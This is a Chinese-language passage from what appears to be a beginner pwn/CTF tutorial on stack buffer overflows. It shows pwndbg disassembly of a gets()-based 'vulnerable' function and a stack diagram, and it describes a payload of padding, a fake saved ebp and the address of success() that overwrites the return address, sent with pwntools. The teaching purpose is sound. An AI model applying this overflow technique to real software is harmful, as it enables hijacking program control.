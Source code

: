 ```c

►  0x8048454 <vulnerable>       push   ebp                     // 保存 main 函数的栈帧
   0x8048455 <vulnerable+1>     mov    ebp, esp                // 更新栈帧底部
   0x8048457 <vulnerable+3>     sub    esp, 0x18                  
   0x804845a <vulnerable+6>     sub    esp, 0xc
   0x804845d <vulnerable+9>     lea    eax, [ebp - 0x14]       
   0x8048460 <vulnerable+12>    push   eax                     // 局部变量入栈
   0x8048461 <vulnerable+13>    call   gets@plt <gets@plt>     //  调用函数gets 

   0x8048466 <vulnerable+18>    add    esp, 0x10
   0x8048469 <vulnerable+21>    nop
   0x804846a <vulnerable+22>    leave
   0x804846b <vulnerable+23>    ret

─
// 进入call指令之后栈的变化
pwndbg> info frame
Stack level 0, frame at 0xffffd4d0:
eip = 0xf7e61404 in _IO_gets (iogets.c:32); saved eip = 0x8048466
called by frame at 0xffffd500
source language c.
Arglist at 0xffffd4c8, args: buf=0xffffd4e4 ""
Locals at 0xffffd4c8, Previous frame's sp is 0xffffd4d0
Saved registers:
ebx at 0xffffd4bc, ebp at 0xffffd4c8, esi at 0xffffd4c0, edi at 0xffffd4c4, eip at 0xffffd4cc

```

---
结合之前介绍的函数调用栈的变化可以得出
```bash                
             +-----------------+
             |     retaddr     |
             +-----------------+
             |     saved ebp   |
      ebp--->+-----------------+
             |                 |
             |                 |
             |                 |
             |                 |
             |                 |
             |                 |
s,ebp-0x14-->+-----------------+
```

---
接下来，尝试覆盖 ```retaddr``` ,将其变成 ```success()``` 函数的地址，达到执行 ```success()``` 函数的目的
使用 ```b*success()``` 下断点的方式看看```success()```函数的地址
```c
pwndbg> b*success
Breakpoint 2 at 0x804843b
```
得到 ```success()``` 函数的地址，如果我们输入为```0x14*'a'+'bbbb'+success_addr```，此时，存储的 ebp 应该是```bbbb```,而 ```retaddr``` 应该是 ```0x804843b```。由于在终端输入的时候 \，x 等也算一个单独的字符。所以不能直接在终端输入，需要借助 ```pwntools```。

---